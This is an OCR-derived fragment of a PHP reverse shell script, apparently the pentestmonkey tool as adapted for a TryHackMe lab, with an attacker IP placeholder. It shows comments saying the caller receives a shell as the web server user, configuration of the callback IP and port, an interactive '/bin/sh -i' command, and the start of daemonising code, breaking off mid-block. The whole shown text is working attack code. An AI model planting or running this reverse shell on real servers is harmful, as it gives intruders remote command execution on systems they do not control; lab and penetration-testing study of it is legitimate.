// The recipient will be given a shell running as the current user (apache normally).

//

// Limitations

// -----------

// proc\_open and stream\_set\_blocking require PHP version 4.3+, or 5+

// Use of stream\_select() on file descriptors returned by proc\_open() will fail and return FALSE under Windows.

// Some compile-time options are needed for daemonisation (like pcntl, posix). These are rarely available.

//

// Usage

// -----

// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set\_time\_limit (0);

$VERSION = "1.0";

$ip = 'PUT\_THM\_ATTACKBOX\_IP\_HERE'; // CHANGE THIS

$port = 1234; // CHANGE THIS

$chunk\_size = 1400;

$write\_a = null;

$error\_a = null;

$shell = 'uname -a; w; id; /bin/sh -i';

$daemon = 0;

$debug = 0;

//

// Daemonise ourself if possible to avoid zombies later

//

// pcntl\_fork is hardly ever available, but will allow us to daemonise

// our php process and avoid zombies. Worth a try...

if (function\_exists('pcntl\_fork')) {

// Fork and have the parent process exit

$pid = pcntl\_fork();

if ($pid == -1) {

printit("ERROR: Can't fork");

exit(1);
